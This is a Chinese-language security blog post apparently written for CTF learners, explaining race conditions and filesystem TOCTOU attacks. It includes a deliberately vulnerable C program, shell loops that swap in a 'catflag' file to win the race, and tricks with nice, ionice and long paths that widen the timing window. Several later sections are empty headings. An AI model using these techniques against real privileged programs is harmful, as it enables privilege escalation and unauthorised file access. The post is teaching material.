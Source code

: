```yaml
---
layout: post
tags: [pwn]
title: "race conditions"
author: wsxk
date: 2024-12-11
comments: true
---
```


- [1. 什么是race condition](#1-什么是race-condition)
- [2. races in filesystem](#2-races-in-filesystem)
  - [2.1 races in filesystem 原理](#21-races-in-filesystem-原理)
  - [2.2 提高rece condition成功概率的方法](#22-提高rece-condition成功概率的方法)
    - [2.2.1 方法一: nice](#221-方法一-nice)
    - [2.2.2 方法二: Path Complexity](#222-方法二-path-complexity)
- [3. processes and threades](#3-processes-and-threades)
- [4. Races in memory](#4-races-in-memory)
- [5. Signals and reentrancy](#5-signals-and-reentrancy)


# 1. 什么是race condition<br>
在古早时期，CPU是单核的，但是你想在这颗CPU上运行多个进程，这意味着:<br>
```
用户感受到两个进程同时运行，但是实际上在某个时刻内，只有一个进程能被执行
只不过用户(人)感受不到这个变化
```
现代，CPU是多核的，但是:<br>
```
1. 进程数量还是多于核数
2. 内核因此还是需要决定什么时候调度哪些进程
3. 存储控制器的通道有限（四通道），存储媒介通道有限，网络通信是单通道的
```
这些限制都导致计算机无法同时运行所有进程。<br>
`race condition`出现的核心要旨是**计算设备的瓶颈导致并发的事件至少有一部分需要被序列化**<br>
**通常，没有隐式依赖或者程序显式的努力，执行顺序只能在进程内(一个线程)得到保证**<br>
这也导致一个问题，如果进程A和B都检查文件C的内容(check),符合条件就更新文件C(change)；然后进程A和B按照如下顺序被执行:<br>
```
1. A check #通过
2. B check #通过
3. A change # A改变了C的内容
4. B change # 讲道理此时不应该执行B，但是B还是能被执行，导致C的内容被改变了2次
```
这就是`race condition`!<br>
**要想利用race condition，我们需要在应用执行的薄弱时期，精细地影响其状态才行**<br>

# 2. races in filesystem<br>
书接上回，攻击者通过改变程序运行的状态，而程序假设它的状态没有改变,导致`race condition`<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241212221549.png)
为了利用`race condition`,攻击者需要能够影响所说的环境，**Races in filesystem**就是一个很常见的例子。<br>
## 2.1 races in filesystem 原理<br>
文件系统是攻击者能够经常影响的程序环境的一部分。<br>
利用文件系统实施攻击，本质上是在进程运行时，操控进程运行所需的文件达到利用`race condition`的目的。<br>
考虑这段代码:<br>
```c
int main(int argc, char **argv) {
    int fd = open(argv[1], O_WRONLY | O_CREAT | O_TRUNC, 0755);//O_TRUNC 标志在打开文件时会丢弃文件原本的内容，即清0
    write(fd, "#!/bin/sh\necho SAFE\n", 20);
    close(fd);
    execl("/bin/sh", "/bin/sh", argv[1], NULL);
}
```
在open打开文件和实际执行/binsh之间存在空窗期可以利用！<br>
```
具体利用步骤:
1. gcc fs1.c -o fs1
2. 启动一个terminal， 运行 while /bin/true; do cp -v catflag asdf; done
3. 再启动一个terminal，运行 for i in $(seq 1 2000); do ./fs1 asdf; done | tee output
   运行 sort output | uniq -c 查看运行次数  
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241213210133.png)
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241213211751.png)

## 2.2 提高rece condition成功概率的方法<br>
考虑如下代码:<br>
```c
int main(int argc, char **argv) {
    int echo_fd = open("/bin/echo", O_RDONLY);
    int fd = open(argv[1], O_WRONLY | O_CREAT, 0755);
    sendfile(fd, echo_fd, 0, 1024*1024);
    close(fd);
    execl(argv[1], argv[1], "SAFE", NULL);
}
//这段代码的空窗期比2.1提到的小得多，主要原因是/bin/sh执行时需要加载很多system call
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241213211831.png)
这概率小太多了，因此，我们需要提高空窗期的方法！<br>

### 2.2.1 方法一: nice<br>
`nice`命令和`nice system call`允许用户设置进程在`linux kernel`调度器中的优先级。<br>
`linux kernel scheduler`的优先级从高到低 为-20~19，优先级越高的进程，能够获得cpu资源的比例就越高<br>
`ionice`的用法和`nice`差不多，只不过它设置的是进程的io调度优先级，优先级从高到低是0~7，<br>
**这种方法的思路就是通过降低进程在系统中被执行的优先级，从而提高空窗期**<br>

用法如下:<br>
```
1. 启动一个terminal， 运行 while /bin/true; do cp -v catflag asdf; done
2. 再启动一个terminal，运行 for i in $(seq 1 2000); do nice -n 19 ./fs2 asdf; done | tee output
   运行sort output | uniq -c
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241214001123.png)
可以看到，概率还是命中次数差不多提升了一倍。<br>
`ionice也有差不多的效果`<br>
```
for i in $(seq 1 2000); do ionice -n 7 ./fs2 asdf; done | tee output
sort output | uniq -c
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241214102238.png)
两者结合，使用效果更佳:<br>
```
for i in $(seq 1 2000); do nice -n 19 ionice -n 7 ./fs2 asdf; done | tee output
sort output | uniq -c
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241214102358.png)

### 2.2.2 方法二: Path Complexity<br>
`filesystem race`涉及到文件系统访问，但是 不是所有的文件系统访问都是想等的<br>
```
cat my_file 比
cat a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/p/q/r/s/t/u/v/w/x/y/z/my_file
快得多！
因为内核需要花时间进入这些目录！
```
**这给了我们一个灵感：即可以传超级长路径来降低程序访问文件的速度,从而提高空窗期(需要注意，linux的路径限制最长为4096字节)**<br>


# 3. processes and threades<br>


# 4. Races in memory<br>

# 5. Signals and reentrancy<br>

<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>